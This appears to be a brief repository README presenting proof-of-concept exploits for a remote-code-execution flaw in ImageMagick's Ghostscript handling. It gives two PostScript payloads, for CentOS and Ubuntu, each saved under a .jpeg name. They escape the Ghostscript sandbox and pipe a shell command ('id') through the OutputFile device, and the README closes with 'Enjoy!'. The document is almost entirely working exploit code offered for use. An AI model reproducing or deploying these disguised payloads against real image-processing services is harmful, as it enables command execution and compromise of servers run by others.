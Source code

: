 # ImageMagick Ghostscript RCE

## POC

### Centos 

```
$ cat shellexec.jpeg
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

### Ubuntu

```
$ cat shellexec.jpeg
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

## Enjoy!
